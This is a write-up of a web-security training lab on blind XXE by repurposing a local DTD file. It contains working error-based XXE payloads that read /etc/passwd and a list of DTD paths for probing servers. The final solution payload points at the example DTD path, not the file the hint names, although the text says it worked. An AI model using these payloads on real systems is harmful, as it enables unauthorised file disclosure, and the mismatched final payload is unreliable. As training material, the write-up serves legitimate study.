

## Exploiting blind XXE by repurposing a local DTD

The preceding technique works fine with an external DTD, but it won't normally work with an internal DTD that is fully specified within the `DOCTYPE` element. This is because the technique involves using an XML parameter entity within the definition of another parameter entity. Per the XML specification, this is permitted in external DTDs but not in internal DTDs. (Some parsers might tolerate it, but many do not.)

So what about blind XXE vulnerabilities when out-of-band interactions are blocked? You can't exfiltrate data via an out-of-band connection, and you can't load an external DTD from a remote server.

In this situation, it might still be possible to trigger error messages containing sensitive data, due to a loophole in the XML language specification. If a document's DTD uses a hybrid of internal and external DTD declarations, then the internal DTD can redefine entities that are declared in the external DTD. When this happens, the restriction on using an XML parameter entity within the definition of another parameter entity is relaxed.

This means that an attacker can employ the [error-based XXE](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages) technique from within an internal DTD, provided the XML parameter entity that they use is redefining an entity that is declared within an external DTD. Of course, if out-of-band connections are blocked, then the external DTD cannot be loaded from a remote location. Instead, it needs to be an external DTD file that is local to the application server. Essentially, the attack involves invoking a DTD file that happens to exist on the local filesystem and repurposing it to redefine an existing entity in a way that triggers a parsing error containing sensitive data. This technique was pioneered by Arseniy Sharoglazov, and ranked #7 in our [top 10 web hacking techniques of 2018](https://portswigger.net/blog/top-10-web-hacking-techniques-of-2018#7).

For example, suppose there is a DTD file on the server filesystem at the location `/usr/local/app/schema.dtd`, and this DTD file defines an entity called `custom_entity`. An attacker can trigger an XML parsing error message containing the contents of the `/etc/passwd` file by submitting a hybrid DTD like the following:

```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd"> <!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '>
%local_dtd;
]>
```

> Reference for `&#x25;`,`&#x26;` and `&#x27;` : [here](https://www.howtocreate.co.uk/sidehtmlentity.html)

This DTD carries out the following steps:

- Defines an XML parameter entity called `local_dtd`, containing the contents of the external DTD file that exists on the server filesystem.
- Redefines the XML parameter entity called `custom_entity`, which is already defined in the external DTD file. The entity is redefined as containing the [error-based XXE exploit](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages) that was already described, for triggering an error message containing the contents of the `/etc/passwd` file.
- Uses the `local_dtd` entity, so that the external DTD is interpreted, including the redefined value of the `custom_entity` entity. This results in the desired error message.

## Locating an existing DTD file to repurpose

Since this XXE attack involves repurposing an existing DTD on the server filesystem, a key requirement is to locate a suitable file. This is actually quite straightforward. Because the application returns any error messages thrown by the XML parser, you can easily enumerate local DTD files just by attempting to load them from within the internal DTD.

For example, Linux systems using the GNOME desktop environment often have a DTD file at `/usr/share/yelp/dtd/docbookx.dtd`. You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing:

`<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %local_dtd; ]>`

After you have tested a list of common DTD files to locate a file that is present, you then need to obtain a copy of the file and review it to find an entity that you can redefine. Since many common systems that include DTD files are open source, you can normally quickly obtain a copy of files through internet search.

## Challenge

> This lab has a "Check stock" feature that parses XML input but does not display the result.
> To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.
> You'll need to reference an existing DTD file on the server and redefine an entity from it.

:::tip

Systems using the GNOME desktop environment often have a DTD at /usr/share/yelp/dtd/docbookx.dtd containing an entity called ISOamso.

:::

--> So here we have hint given that there is a dtd file at `/usr/share/yelp/dtd/docbookx.dtd` and also there is a entity called `ISOamso` but to cross check i used this payload to check if this file exist or not:

```
<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %local_dtd; ]>
```

--> And i haven't got any error so that means this file exists!

### But what if this file doesn't exists ?

So for that i found some common files for linux and other os.

==> For linux:

```markup
./properties/schemas/j2ee/XMLSchema.dtd
./../properties/schemas/j2ee/XMLSchema.dtd
./../../properties/schemas/j2ee/XMLSchema.dtd
/usr/share/java/jsp-api-2.2.jar!/javax/servlet/jsp/resources/jspxml.dtd
/usr/share/java/jsp-api-2.3.jar!/javax/servlet/jsp/resources/jspxml.dtd
/root/usr/share/doc/rh-python34-python-docutils-0.12/docs/ref/docutils.dtd
/root/usr/share/doc/rh-python35-python-docutils-0.12/docs/ref/docutils.dtd
/usr/share/doc/python2-docutils/docs/ref/docutils.dtd
/usr/share/yelp/dtd/docbookx.dtd
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd
/usr/share/boostbook/dtd/1.1/boostbook.dtd
/usr/share/boostbook/dtd/boostbook.dtd
/usr/share/dblatex/schema/dblatex-config.dtd
/usr/share/struts/struts-config_1_0.dtd
/opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd
```

==> For other OS:

https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/

--> But we know that we have to rewrite `ISOamso` enetiy as given in hint so i made this payload :

```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd"> <!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '>
%local_dtd;
]>
```

And now right click on request and select `do intercept -> response to the request` and forward the request.

And boom! we got the content of `/etc/passwd`



And we solved the lab!
